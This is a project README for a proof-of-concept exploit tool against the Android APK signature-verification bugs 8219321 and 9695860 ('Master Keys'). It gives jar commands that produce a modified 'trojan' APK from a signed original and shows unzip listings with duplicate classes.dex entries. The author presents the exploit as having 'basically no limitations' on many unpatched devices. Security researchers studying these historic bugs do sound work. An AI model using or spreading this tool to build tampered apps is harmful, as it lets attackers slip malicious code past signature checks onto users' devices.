Zip File Arbitrage
===================

This project includes a proof of concept for Android bug 8219321 as well as bug 9695860. 

## Android bug 8219321

Jay Saurik found a very nice way to utilize bug 9695860. He describes it far better than I could [here](http://www.saurik.com/id/18). I did not implement the advanced interleaving that he mentions here, but I did implement the ability to have more or less entries in the trojan app.  There are basically no limitations with this exploit.  In addition, this bug is patched on way less devices than AndroidMasterKeys.

The ```-b``` switch makes this tool use bug 9695860.

Run it as:
```
java -jar bin/AndroidMasterKeys.jar -b -a Orig.apk -z modifiedAPK.apk
```



## Android bug 8219321 aka Android Master Keys


This is a POC example for Android bug 8219321 (master keys):
  - [Well Written Explaination by Al Sutton](https://plus.google.com/113331808607528811927/posts/GxDA6111vYy)
  - [CyanogenMod Bug Report](https://jira.cyanogenmod.org/browse/CYAN-1602)
  - [CyanogenMod Patch](http://review.cyanogenmod.org/#/c/45251/)
  - [Blue Boxes' teaser of Blackhat talk](http://bluebox.com/corporate-blog/bluebox-uncovers-android-master-key/)
  - [POF's original POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8)
  - [Rekey.io - A Root framework patcher](http://www.rekey.io/)

Run it as:
```
java -jar bin/AndroidMasterKeys.jar -a Orig.apk -z modifiedAPK.apk
```

Please note that -most- ZIP libraries do not handle doing this properly.  UNIX zip's append will not allow file name collisions. It may be able to be done in Python, but it's default ZipFile append method only will add files in non-compressed.

The output from this [POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8) gives: 
```
➜  AndroidMasterKeys git:(master) unzip -vl pythonModdedApp.apk
Archive:  pythonModdedApp.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   196197  61%  07-08-13 21:53  81ab41c8  classes.dex
    1664  Stored     1664   0%  07-08-13 21:51  db586380  AndroidManifest.xml
  506720  Stored   506720   0%  07-08-13 21:51  1fee85e8  classes.dex
     194  Stored      194   0%  07-08-13 21:51  463e5f86  library.properties
     776  Stored      776   0%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
     515  Stored      515   0%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     462  Stored      462   0%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     692  Stored      692   0%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
    1761  Stored     1761   0%  07-08-13 21:51  e23c7570  rootdoc.txt
--------          -------  ---                            -------
 1020352           709837  30%                            10 files
 ```
 
 This tool takes proper care to not duplicate any files, while at the same time making sure that all 'appended' files are also compressed. 


 ```
unzip -vl AndroidMasterKeysModded.apk
Archive:  AndroidMasterKeysModded.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   195600  61%  07-08-13 21:53  81ab41c8  classes.dex
     692  Defl:N      311  55%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
    1664  Defl:N      621  63%  07-08-13 21:51  db586380  AndroidManifest.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
  506720  Defl:N   190564  62%  07-08-13 21:51  1fee85e8  classes.dex
     194  Defl:N      144  26%  07-08-13 21:51  463e5f86  library.properties
    1761  Defl:N      741  58%  07-08-13 21:51  e23c7570  rootdoc.txt
     462  Defl:N      298  36%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     515  Defl:N      330  36%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     776  Defl:N      604  22%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
--------          -------  ---                            -------
 1020352           390069  62%                            10 files
 ```
 
To hack on the project download SBT run the following to build a jar:
```
sbt assembly
```
You can also add the gen-idea plugin and generate IntelliJ project files as well.
